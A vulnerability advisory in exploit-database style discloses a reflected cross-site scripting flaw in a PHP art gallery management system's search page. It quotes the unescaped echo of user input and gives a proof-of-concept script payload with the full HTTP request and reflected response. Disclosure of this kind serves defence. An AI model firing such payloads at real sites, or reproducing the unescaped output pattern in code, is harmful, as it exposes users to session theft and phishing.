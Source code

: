 ```yaml
---
title: Art Gallery Management System Project v1.1 - Reflected Cross-Site Scripting (XSS)
published: true
---
```


- **Exploit Title:** Art Gallery Management System Project v1.1 - Reflected Cross-Site Scripting (XSS)
- **Application:**  Art Gallery Management System
- **Google Dork:** N/A
- **Date:** 16.03.2024
- **Bugs:** Reflected XSS
- **Exploit Author:** SoSPiro
- **Vendor Homepage:** https://phpgurukul.com/
- **Software Link:** https://phpgurukul.com/art-gallery-management-system-using-php-and-mysql/
- **Version:** 1.1
- **Tested on:** Windows 10 64 bit Wampserver 

----



### Vulnerability Details

- **Application Name:** Art Gallery Management System 
- **Vendor Homepage:** [Vendor Homepage](https://phpgurukul.com/)
- **Software Link:** [Vendor Homepage](https://phpgurukul.com/art-gallery-management-system-using-php-and-mysql/)
- The vulnerability lies in the following code snippet:

`Art-Gallery-MS-PHP/agms/search.php`

```php
<?php
...

<h3 class="title text-center mb-lg-5">
    <h2 class="head" align="center">
        Search Result Againt keyword 
        <span style="color:red">"<?php echo $_POST['search'];?>"</span>
    </h2>
    <hr />
...

?>
```
This code has an XSS (Cross-Site Scripting) vulnerability. The **$_POST['search']** parameter, which is user input, is directly embedded into HTML, allowing potentially malicious JavaScript code to execute on the page.

### Vulnerability Description:

A security vulnerability has been identified within the `search.php` file of this application. 
It has been observed that the input provided by users when searching **($_POST['search'])** is not properly sanitized. 
While the user-supplied data within the input field is directly embedded into HTML content,
necessary filtering and escaping processes have not been applied.





### Proof of Concept:

1. Install The application Art Gallery Management System Project v1.1
2. Go to `http://localhost/Art-Gallery-MS-PHP/agms/search.php`
3. Now Insert XSS Payload in **`Search Here..`** input.
4. XSS has been triggered.

- the XSS Payload: `<script>alert(1111)</script>`
 
[ -> PoC ViDeO <- ](https://drive.google.com/file/d/1fHWWIss9EvYAQj2QBzkpBLQVBgZ6vTXj/view)

#### **Request**
```
POST /Art-Gallery-MS-PHP/agms/search.php HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:123.0) Gecko/20100101 Firefox/123.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: close
Cookie: _ga=GA1.1.2080672900.1708952048
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
X-PwnFox-Color: cyan
Content-Type: application/x-www-form-urlencoded
Content-Length: 39

search=<script>alert(1111)</script>
```

#### **Response**
```
...

<h2 class="head" align="center">
               Search Result Againt keyword <span style="color:red">"<script>alert(1111)</script>

"</span></h2>

...
```

### Impact

This security vulnerability allows attackers to steal sessioninformation through
XSS attacks on the web application, deceive users by directing them to malicious actions,
or modify page content. This can lead to the exposure of personal information, phishing attacks,
and overall compromise of the application's security. Therefore, immediate intervention to address
the security vulnerability in the application and implementation of necessary fixes are crucial.
